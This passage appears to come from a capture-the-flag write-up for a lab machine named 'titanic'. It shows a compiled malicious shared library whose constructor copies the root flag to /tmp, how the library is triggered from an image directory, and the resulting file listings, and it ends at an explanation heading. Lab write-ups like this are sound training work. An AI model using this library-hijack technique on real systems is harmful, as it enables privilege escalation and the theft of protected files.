 
The gcc command we ran to creates a malicious shared library (libxcb.so.1) and places it in the /opt/app/static/assets/images directory.

```jsx
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/furious5.txt");
    exit(0);
}
EOF

```

To trigger it, run `cp home.jpg furious5.jpg.`

```jsx
developer@titanic:/opt/app/static/assets/images$ cp home.jpg furious5.jpg
developer@titanic:/opt/app/static/assets/images$ ls
entertainment.jpg  exquisite-dining.jpg  favicon.ico  furious5.jpg  home.jpg  libxcb.so.1  luxury-cabins.jpg  metadata.log  root.jpg
developer@titanic:/opt/app/static/assets/images$ ls -al
total 1760
drwxrwx--- 2 root      developer   4096 Feb 16 13:44 .
drwxr-x--- 3 root      developer   4096 Feb  7 10:37 ..
-rw-r----- 1 root      developer 291864 Feb  3 17:13 entertainment.jpg
-rw-r----- 1 root      developer 280854 Feb  3 17:13 exquisite-dining.jpg
-rw-r----- 1 root      developer 209762 Feb  3 17:13 favicon.ico
-rw-r----- 1 developer developer 232842 Feb 16 13:44 furious5.jpg
-rw-r----- 1 root      developer 232842 Feb  3 17:13 home.jpg
-rwxrwxr-x 1 developer developer  15616 Feb 16 13:44 libxcb.so.1
-rw-r----- 1 root      developer 280817 Feb  3 17:13 luxury-cabins.jpg
-rw-r----- 1 root      developer    545 Feb 16 13:44 metadata.log

```
Now, under `/tmp`, we have `furious5.txt` that contains the flag.

```jsx
developer@titanic:/tmp$ ls
furious5.txt
snap-private-tmp
systemd-private-128c8bc1a6d24e7cacc72b787e8c3757-apache2.service-df6NPf
systemd-private-128c8bc1a6d24e7cacc72b787e8c3757-ModemManager.service-60nFnD
systemd-private-128c8bc1a6d24e7cacc72b787e8c3757-systemd-logind.service-V6zj5y
systemd-private-128c8bc1a6d24e7cacc72b787e8c3757-systemd-resolved.service-OCPAD9
systemd-private-128c8bc1a6d24e7cacc72b787e8c3757-systemd-timesyncd.service-ws0Fij
vmware-root_607-3988556120

```

### **How This Attack Works**  
